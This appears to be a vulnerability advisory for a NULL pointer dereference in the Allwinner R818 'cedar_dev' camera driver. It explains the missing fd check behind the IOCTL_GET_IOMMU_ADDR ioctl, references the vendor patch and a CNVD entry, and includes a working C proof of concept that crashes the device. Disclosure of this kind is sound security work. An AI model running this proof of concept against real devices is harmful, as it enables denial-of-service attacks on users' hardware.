 ## Background
Allwinner R818 SoC is made for smart speakers with a screen which is a processor for use in Android-based
It integrates quad-core 64-bit CortexTM-A53 CPU and Imagination PowerVR GE8300 GPU to ensure response rapidity and
running smoothness for daily application, such as on-line video, web browsing, and so on

## Description
There is a NULL Pointer Reference in the camera driver "cedar_dev". An third-app could use the ioctl cmd "IOCTL_GET_IOMMU_ADDR"to cause a system crash.

## Affect Versions
Soc: Allwinner R818 
System: R818 Android Q 
SDK Version: V1.0 

## POC
The problem code is as follow:

![image](https://user-images.githubusercontent.com/13774458/129021015-5f952b84-0027-445b-aea6-877f01378364.png)

The param sUserIommuParam are from userspace which could use ioctl cmd "IOCTL_GET_IOMMU_ADDR" to pass to driver. The code do not judge if the pVeIommuBuf->fd are valid and the function dma_buf_get will return Null if the pVeIommuBuf->fd is invalid.

The POC is as follow:
```
#include <stdio.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include "cedar_ve.h"

struct VE_PROC_INFO {
    unsigned char   channel_id;
    unsigned int    proc_info_len;
};

struct cedarv_env_infomation_compat {
    unsigned int phymem_start;
    int  phymem_total_size;
    int  address_macc;
};

struct user_iommu_param {
    int             fd;
    unsigned int    iommu_addr;
};

#define DEV_NAME                     "/dev/cedar_dev"

int main(){
    int fd = open(DEV_NAME, O_RDONLY, 0);
    int ret = 0;
    if (fd <= 0) {
        printf("open %s failed \n", DEV_NAME);
        return -1;
    }
        // IOCTL_GET_IOMMU_ADDR
        struct user_iommu_param user_iommu_param;
        user_iommu_param.fd = 0;
        user_iommu_param.iommu_addr = 0xffff;
        ret =  ioctl(fd, IOCTL_GET_IOMMU_ADDR, &user_iommu_param);
        if (ret < 0) {
            printf("IOCTL_GET_IOMMU_ADDR Error!!\n");
            return -1;
        } else {
            printf("IOCTL_GET_IOMMU_ADDR Succeed!!\n");
        }
    return 0;
}

```

The crash log is as follow:

![image](https://user-images.githubusercontent.com/13774458/129021450-f5dc253f-7ca5-436a-a811-39086a667533.png)

![image](https://user-images.githubusercontent.com/13774458/129021466-a58f312a-3bcb-494f-a292-2b8d3cbf8273.png)

Could see the crash is locate in "compat_cedardev_ioctl"

## Patch
The patch of Allwinner is as follow:

![image](https://user-images.githubusercontent.com/13774458/129021613-1a935512-36aa-43e6-a165-3a2e3bb3fc53.png)


## References
https://www.cnvd.org.cn/flaw/show/CNVD-2021-49168

https://vul.wangan.com/a/CNVD-2021-49168

https://www.allwinnertech.com/index.php?c=product&a=index&id=92

